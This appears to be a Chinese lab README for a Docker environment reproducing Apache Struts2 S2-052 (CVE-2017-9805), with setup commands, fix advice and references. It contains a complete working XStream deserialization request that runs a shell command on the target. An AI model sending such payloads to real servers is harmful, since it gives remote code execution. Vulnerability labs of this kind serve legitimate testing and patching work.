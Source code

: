 ## Struts2 XStreamHandler 远程代码执行漏洞(S2-052､ CVE-2017-9805)环境

### 漏洞信息

 * [S2-052 公告](https://cwiki.apache.org/confluence/display/WW/S2-052)

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:s_struts2_s2-052
 ```

2. 启动环境

 ```
$ docker run -d -p 80:8080 medicean/vulapps:s_struts2_s2-052
 ```
 > `-p 80:8080` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

#### Exp

 来源：[Tomcat部署war - caiqiiqi的博客](http://blog.csdn.net/caiqiiqi/article/details/77861477)

执行 `/usr/bin/touch /tmp/vuln` 命令：

```
POST /orders;jsessionid=A82EAA2857A1FFAF61FF24A1FBB4A3C7 HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:54.0) Gecko/20100101 Firefox/54.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/xml
Content-Length: 1659
Referer: http://127.0.0.1:8080/orders/3/edit
Cookie: JSESSIONID=A82EAA2857A1FFAF61FF24A1FBB4A3C7
Connection: close
Upgrade-Insecure-Requests: 1


<map> 
<entry> 
<jdk.nashorn.internal.objects.NativeString> <flags>0</flags> <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data"> <dataHandler> <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource"> <is class="javax.crypto.CipherInputStream"> <cipher class="javax.crypto.NullCipher"> <initialized>false</initialized> <opmode>0</opmode> <serviceIterator class="javax.imageio.spi.FilterIterator"> <iter class="javax.imageio.spi.FilterIterator"> <iter class="java.util.Collections$EmptyIterator"/> <next class="java.lang.ProcessBuilder"> <command><string>/usr/bin/touch</string><string>/tmp/vuln</string> </command> <redirectErrorStream>false</redirectErrorStream> </next> </iter> <filter class="javax.imageio.ImageIO$ContainsFilter"> <method> <class>java.lang.ProcessBuilder</class> <name>start</name> <parameter-types/> </method> <name>foo</name> </filter> <next class="string">foo</next> </serviceIterator> <lock/> </cipher> <input class="java.lang.ProcessBuilder$NullInputStream"/> <ibuffer></ibuffer> <done>false</done> <ostart>0</ostart> <ofinish>0</ofinish> <closed>false</closed> </is> <consumed>false</consumed> </dataSource> <transferFlavors/> </dataHandler> <dataLen>0</dataLen> </value> </jdk.nashorn.internal.objects.NativeString> <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/> </entry> <entry> <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/> <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/> 
</entry> 
</map>
```

发送之后，会在目标主机创建 `/tmp/vuln` 文件

**注意**

`POST /orders` 这个链接在本例中是这样请求的，在实际测试过程中可以直接对站点根目录请求 `POST /`

### 修复建议

1. 升级Apache struts 至 2.5.13 版本

2. 如果系统没有使用Struts REST插件，那么可以直接删除Struts REST插件，或者在配置文件中加入如下代码，限制服务端文件的扩展名

```
<constant name="struts.action.extension" value="xhtml,,json" />
```

### 参考链接

* [Using QL to find a remote code execution vulnerability in Apache Struts (CVE-2017-9805)](https://lgtm.com/blog/apache_struts_CVE-2017-9805)
* [【漏洞预警】Apache Struts2插件高危漏洞(S2-052)](http://bobao.360.cn/news/detail/4291.html)
* [Tomcat部署war - caiqiiqi的博客](http://blog.csdn.net/caiqiiqi/article/details/77861477)
